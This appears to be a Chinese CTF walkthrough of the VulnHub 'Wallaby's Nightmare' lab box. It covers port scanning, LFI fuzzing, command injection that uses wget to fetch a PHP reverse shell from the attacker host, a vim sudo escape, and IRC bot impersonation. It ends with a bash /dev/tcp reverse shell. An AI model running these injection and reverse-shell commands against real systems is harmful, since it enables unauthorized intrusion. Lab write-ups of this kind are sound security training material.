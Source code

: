 # Wallaby's Nightmare

下载地址：https://download.vulnhub.com/wallabys/wallabysnightmare102.rar

## 实战演练

发现靶场IP：`192.168.32.157`

![image-20220620193752791](../../.gitbook/assets/image-20220620193752791.png)

扫描对外IP端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.32.157                                                                                                                                                                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-20 07:38 EDT
Nmap scan report for 192.168.32.157
Host is up (0.00074s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
6667/tcp filtered irc
MAC Address: 00:0C:29:03:CE:57 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.93 seconds
```

浏览器访问80端口，叫你输入一个名字开始CTF比赛。

![image-20220620193947231](../../.gitbook/assets/image-20220620193947231.png)

![image-20220620194039601](../../.gitbook/assets/image-20220620194039601.png)

> 这是什么鬼?一个叫test的家伙想侵入我的服务器?失败者一定不知道我是伟大的小袋鼠!
>
> 让我们先观察一下，也许我可以从他的行为中了解他。

尝试本地包含漏洞

![image-20220620194138992](../../.gitbook/assets/image-20220620194138992.png)

> 伙计，你的做法很可疑啊。你一定认为小袋鼠的密码像猴子一样!不过我最好还是去保护这个SQLi…
>
> (袋鼠发现你在尝试LFI，你必须更狡猾!难度增加)

刷新浏览器发现失败，后面使用nmap再次扫描端口，发现http端口变成了60080

![image-20220620194323549](../../.gitbook/assets/image-20220620194323549.png)

访问60080端口

![image-20220620194356018](../../.gitbook/assets/image-20220620194356018.png)

> 天哪，这个家伙想要我…很高兴我搬到了另一个端口，这样我可以更安全地工作!!
>
> 我们都知道，通过隐藏实现安全是可行的方法……

继续尝试本地包含文件漏洞

![image-20220620195547968](../../.gitbook/assets/image-20220620195547968.png)

直接用字典fuzz

```
┌──(root💀kali)-[~/Desktop]
└─# dirb http://192.168.32.157:60080/index.php?page= /usr/share/wordlists/dirb/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Jun 20 07:56:15 2022
URL_BASE: http://192.168.32.157:60080/index.php?page=
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://192.168.32.157:60080/index.php?page= ----
+ http://192.168.32.157:60080/index.php?page=blacklist (CODE:200|SIZE:991)                                                                                                                                                                  
+ http://192.168.32.157:60080/index.php?page=cgi-bin/ (CODE:200|SIZE:897)                                                                                                                                                                   
+ http://192.168.32.157:60080/index.php?page=contact (CODE:200|SIZE:895)                                                                                                                                                                    
+ http://192.168.32.157:60080/index.php?page=home (CODE:200|SIZE:1144)                                                                                                                                                                      
+ http://192.168.32.157:60080/index.php?page=index (CODE:200|SIZE:1359)                                                                                                                                                                     
+ http://192.168.32.157:60080/index.php?page=mailer (CODE:200|SIZE:1082)                                                                                                                                                                    
                                                                                                                                                                                                                                            
-----------------
END_TIME: Mon Jun 20 07:56:31 2022
DOWNLOADED: 20458 - FOUND: 6
```

访问`http://192.168.32.157:60080/index.php?page=mailer`，查看页面源代码，找到一个提示

![image-20220620195737512](../../.gitbook/assets/image-20220620195737512.png)

mail参数可以执行Linux命令

![image-20220620195853526](../../.gitbook/assets/image-20220620195853526.png)

```
http://192.168.32.157:60080/index.php?page=mailer&mail=wget%20%20http://192.168.32.130:8000/php-reverse-shell.php
```

![image-20220620200707590](../../.gitbook/assets/image-20220620200707590.png)

查看sudo列表

```
$ sudo -l                                                                                                                                                                                                                                    
Matching Defaults entries for www-data on ubuntu:                                                                                                                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                                                                        
                                                                                                                                                                                                                                             
User www-data may run the following commands on ubuntu:                                                                                                                                                                                      
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf                                                                                                                                                             
    (ALL) NOPASSWD: /sbin/iptables  
```

查看防火墙规则，发现拦截ircd端口

```
$ sudo iptables -L                                                                                                                                                                                                                           
Chain INPUT (policy ACCEPT)                                                                                                                                                                                                                  
target     prot opt source               destination                                                                                                                                                                                         
ACCEPT     tcp  --  localhost            anywhere             tcp dpt:ircd                                                                                                                                                                   
DROP       tcp  --  anywhere             anywhere             tcp dpt:ircd                                                                                                                                                                   
                                                                                                                                                                                                                                             
Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
```

清除防火墙规则

![image-20220620201118549](../../.gitbook/assets/image-20220620201118549.png)

连接到IRC聊天室

```
irssi -c 192.168.32.157 
```

![image-20220620213425537](../../.gitbook/assets/image-20220620213425537.png)

查看聊天室

![image-20220620213505320](../../.gitbook/assets/image-20220620213505320.png)

加入`wallabyschat`聊天室

```
/j wallabyschat
```

在频道`wallabyschat`内，我看到了另外两个用户

![image-20220620213546208](../../.gitbook/assets/image-20220620213546208.png)

回到**IRSSI**的主窗口，我使用以下命令对用户进行了一些侦察：

```
/whois waldo
/whois wallabysbot
```

![image-20220620215858904](../../.gitbook/assets/image-20220620215858904.png)

wallabysbot基于Sopel。在服务器上寻找这个机器人框架：

```
import sopel.module, subprocess, os
from sopel.module import example

@sopel.module.commands('run')
@example('.run ls')
def run(bot, trigger):
     if trigger.owner:
          os.system('%s' % trigger.group(2))
          runas1 = subprocess.Popen('%s' % trigger.group(2), stdout=subprocess.PIPE).communicate()[0]
          runas = str(runas1)
          bot.say(' '.join(runas.split('\\n')))
     else:
          bot.say('Hold on, you aren\'t Waldo?')
```

![image-20220620220225537](../../.gitbook/assets/image-20220620220225537.png)

尝试运行命令，会提示你是否是Waldo用户

![image-20220620220552968](../../.gitbook/assets/image-20220620220552968.png)

我发现Waldo使用Tmux来满足他的IRC需求。他的设置有问题。如果 Tmux 宕机，他的 IRC 连接也会宕机。

> _tmux_是指通过一个终端登录远程主机并运行后，在其中可以开启多个控制台的终端复用软件

```
$ cat irssi.sh
#!/bin/bash
tmux new-session -d -s irssi
tmux send-keys -t irssi 'n' Enter
tmux send-keys -t irssi 'irssi' Enter
```

找到tumx的进程

![image-20220620221001015](../../.gitbook/assets/image-20220620221001015.png)

使用vim对进程进行关闭

```
sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf
```

使用Vim发出 kill 命令

```
[ESC]:!kill 732 [ENTER]
```

![image-20220620221332832](../../.gitbook/assets/image-20220620221332832.png)

通过改变我的昵称来接管Waldos的身份：

```
/nick waldo
```

反弹shell

```
.run bash -c 'bash -i >& /dev/tcp/192.168.32.130/17777 0>&1'
```

![image-20220620221615105](../../.gitbook/assets/image-20220620221615105.png)

最后提权成功

![image-20230208161300671](../../.gitbook/assets/image-20230208161300671.png)
